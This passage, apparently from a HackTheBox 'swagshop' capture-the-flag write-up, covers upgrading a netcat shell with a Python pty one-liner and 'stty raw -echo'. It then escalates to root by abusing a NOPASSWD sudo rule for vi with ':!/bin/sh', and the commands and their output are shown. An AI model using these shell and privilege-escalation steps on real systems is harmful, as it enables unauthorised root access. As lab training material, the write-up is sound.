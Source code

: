 ```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user.txt flag.

![](../images/max/820/1*IoY8IqMKCCOP5vIjDrt30g.png)

## Privilege Escalation <a id="bd9a"></a>

To grab the root.txt flag, we need to escalate our privileges to root.

Run the following command to view the list of allowed commands the user can run as root without a password.

```text
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

We’re allowed to run the vi command on any file in /var/www/html/ as root. If you’re not sure if you can escalate privileges with vi, you can simply check on this [website](https://gtfobins.github.io/). Since we’re restricted to a specific path, we’ll have to slightly modify the command.

```text
sudo vi /var/www/html/bla -c ':!/bin/sh'
```

The above command opens up a shell in the “bla” file and since we ran the command with sudo, the shell is running with root privileges!

```text
"/var/www/html/bla" [New File]
id/bin/sh
uid=0(root) gid=0(root) groups=0(root)
```

Grab the root.txt flag.
